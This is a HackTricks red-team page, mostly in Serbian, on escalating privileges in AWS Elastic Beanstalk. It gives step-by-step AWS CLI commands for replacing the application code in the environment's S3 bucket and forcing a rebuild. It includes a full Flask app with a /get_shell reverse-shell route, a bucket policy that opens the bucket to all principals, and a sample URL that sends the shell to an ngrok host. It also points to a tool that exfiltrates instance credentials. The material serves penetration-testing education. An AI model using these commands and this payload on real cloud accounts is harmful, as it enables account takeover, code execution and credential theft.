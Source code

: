 # AWS - Elastic Beanstalk Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Elastic Beanstalk

Više **informacija o Elastic Beanstalk** u:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Da biste izvršili osetljive radnje u Beanstalk-u, biće vam potrebne **brojne osetljive dozvole u različitim servisima**. Možete proveriti, na primer, dozvole date **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`**
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, S3 write permissions & many others

Sa **dozvolama za pisanje nad S3 bucket-om** koji sadrži **kod** okruženja i dozvolama za **ponovno izgradnju** aplikacije (potrebno je `elasticbeanstalk:RebuildEnvironment` i još nekoliko povezanih sa `S3`, `EC2` i `Cloudformation`), možete **modifikovati** **kod**, **ponovo izgraditi** aplikaciju i sledeći put kada pristupite aplikaciji, ona će **izvršiti vaš novi kod**, omogućavajući napadaču da kompromituje aplikaciju i IAM uloge njene kredencijale.

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, i još...

Pomenute, plus nekoliko **`S3`**, **`EC2`, `cloudformation`**, **`autoscaling`** i **`elasticloadbalancing`** dozvola su neophodne za kreiranje osnovnog Elastic Beanstalk scenarija od nule.

* Kreirajte AWS Elastic Beanstalk aplikaciju:
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* Kreirajte AWS Elastic Beanstalk okruženje ([**podržane platforme**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

Ako je okruženje već kreirano i **ne želite da kreirate novo**, možete jednostavno **ažurirati** postojeće.

* Pakujte svoj aplikacioni kod i zavisnosti u ZIP datoteku:
```python
zip -r MyApp.zip .
```
* Učitajte ZIP datoteku u S3 kantu:
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* Kreirajte verziju aplikacije AWS Elastic Beanstalk:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* Implementirajte verziju aplikacije u vaše AWS Elastic Beanstalk okruženje:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

Prvo što treba da uradite je da kreirate **legit Beanstalk okruženje** sa **kodom** koji želite da pokrenete u **žrtvi** prateći **prethodne korake**. Potencijalno jednostavan **zip** koji sadrži ova **2 fajla**:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

Kada imate **svoju Beanstalk okolinu koja radi** vašu rev shell, vreme je da je **migrate** u **žrtvinu** okolinu. Da biste to uradili, potrebno je da **ažurirate Bucket Policy** vašeg beanstalk S3 bucket-a tako da **žrtva može da mu pristupi** (Napomena: ovo će **otvoriti** Bucket za **SVE**):
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
{% code overflow="wrap" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```
{% endcode %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
